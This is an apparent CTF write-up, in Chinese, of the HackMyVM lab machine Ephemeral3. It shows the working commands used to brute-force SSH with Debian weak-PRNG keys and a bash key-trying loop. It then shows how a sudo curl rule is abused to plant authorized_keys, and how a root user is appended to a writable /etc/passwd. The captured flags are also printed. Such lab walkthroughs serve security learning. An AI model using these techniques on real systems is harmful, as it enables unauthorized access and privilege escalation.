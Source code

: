 # Ephemeral3

2025.02.11 https://hackmyvm.eu/machines/machine.php?vm=Ephemeral3

[video](https://www.bilibili.com/video/BV1yBNCeeEUQ/?spm_id_from=333.1387.0.0&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web，主页是 apache 默认页面，gobuster 进行扫描，发现: http://192.168.5.40/note.txt

```
Hey! I just generated your keys with OpenSSL. You should be able to use your private key now!
If you have any questions just email me at henry@ephemeral.com
```

发现一个可能存在的用户名 henry

发现另外一个目录: http://192.168.5.40/agency 但是是个静态网页，其他没发现什么有用信息。

还是关注一下 note 中的提示吧，提示生成了私钥，可以用私钥进行登陆，看看 openssl 有没有可以利用的漏洞，之前有一个 Predictable PRNG Brute Force SSH 进行尝试。https://www.exploit-db.com/exploits/5720

```
searchsploit -m linux/remote/5720.py

1. Download https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2)
2. Extract it to a directory
3. Execute the python script
   - something like: python exploit.py /home/hitz/keys 192.168.1.240 root 22 5
```

执行没有找到：

```
python2 5720.py rsa/2048 192.168.5.40 henry 22 5
```

可能是用户名不对，同时在 http://192.168.5.40/agency/ 底部发现了另外一个邮箱：randy@ephemeral.com 发现了另外一个可能的用户名 randy 再次尝试执行脚本：

```
python2 5720.py rsa/2048 192.168.5.40 randy 22 5

找到私钥 0028ca6d22c68ed0a1e3f6f79573100a-31671
```

下面这个 linux shell 脚本也是可以的：

```shell
#!/bin/bash

base_dir='./rsa/2048'
host="192.168.5.39"
port=22
user="randy"
for i in $(ls $base_dir -I '*.pub'); do
    echo $i
    ssh -tt -o PasswordAuthentication=no -i "$base_dir/$i" $user@$host -p $port
    if [ $? -eq 0 ]; then
        echo -e "\n\033[32mFind private keyfile: " "$base_dir/$i" "\033[0m"
        break
    fi
done

```

进行登陆：

```
ssh -i rsa/2048/0028ca6d22c68ed0a1e3f6f79573100a-31671 randy@192.168.5.40
```

sudo -l 发现：(henry) NOPASSWD: /usr/bin/curl 可以先读取 henry 文件夹下的 user flag:

```
randy@ephemeral:/home/henry$ sudo -u henry curl file:///home/henry/user.txt -o /tmp/user.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0  33000      0 --:--:-- --:--:-- --:--:-- 33000
randy@ephemeral:/home/henry$ cat /tmp/user.txt
9c8e36b0cb30f09300592cb56bca0c3a
```

同时利用 curl 将公钥信息写入到 authorized_keys 中：

```
ssh-keygen -t rsa -f ./id_rsa
sudo -u henry curl file:///home/randy/id_rsa.pub -o /home/henry/.ssh/authorized_keys
```

然后使用生成的私钥登陆：

```
ssh -i id_rsa henry@192.168.5.40
henry@ephemeral:~$ id
uid=1001(henry) gid=1001(henry) groups=1001(henry)
```

枚举后发现 /etc/passwd 对 henry 用户可写，直接添加一个超级用户：

```
openssl passwd -1 -salt new 123

echo 'admin:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
su admin
cd /root
cat root.txt
b0a3dec84d09f03615f768c8062cec4d
```
